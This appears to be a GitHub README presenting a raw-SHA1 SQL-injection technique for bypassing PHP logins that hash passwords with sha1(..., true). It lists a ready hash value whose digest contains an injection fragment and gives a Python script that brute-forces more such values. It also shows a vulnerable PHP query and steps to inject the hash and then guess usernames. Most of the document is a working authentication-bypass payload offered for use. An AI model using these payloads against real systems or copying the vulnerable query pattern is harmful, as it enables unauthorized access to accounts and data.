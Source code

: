 # raw sha1 sql injection example hashes

| Hash string                | SHA1 Hash                                     | Raw output            |Query   |Author    |
| -------------------------- |:---------------------------------------------:|:---------------------:|:------:|:--------:|
| 5651578060603509           |96009c0bafe7be05e23b0079226f7222d82fee88       |E&�ɶ��'\|\|'8�vjc\�   |'\|\|'8 |0xJohannes|

# PAYLOAD GENERATION
```python
#!/usr/bin/python
 # -*- coding: utf-8 -*
import hashlib
import re
a = re.compile("'or'\d")
b = re.compile("'\|\|'\d")
d = re.compile("'OR'\d")
e = re.compile("'Or'\d")
f = re.compile("'oR'\d")
from random import randint

identifier = True
while identifier:
    rand=randint(0, 10000)
    rand1=randint(0, 10000)
    rand2=randint(0, 10000)
    rand3=randint(0, 10000)
    value='{}{}{}{}'.format(rand,rand1,rand2,rand3)
    hashed = hashlib.sha1(value).digest()
    hastrip = hashed.strip()
    print hastrip
    if a.search(hastrip)!=None or b.search(hastrip)!=None or d.search(hastrip)!=None or e.search(hastrip)!=None or f.search(hastrip)!=None:
        identifier = False
        print hashed
        print value
        break
```
#  EXAMPLE USAGE

```php
<?php

...SOME CODE...

function escape_sql()
  {
    ...sql escape...
  }
  
$pass = sha1($_POST['pass'], true);

$log = escape_sql($_POST['log']);

$sql = "select * from tablename where password=$pass AND username=$log";

...SOME CODE...
?>
```
* The first step is to inject one of suitable hashes.
* The second move is bruteforcing the login value i.e. (admin, 4dm1n and so on)
* The final step is buying me a coffee :D [![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/Wo30ewVvi)
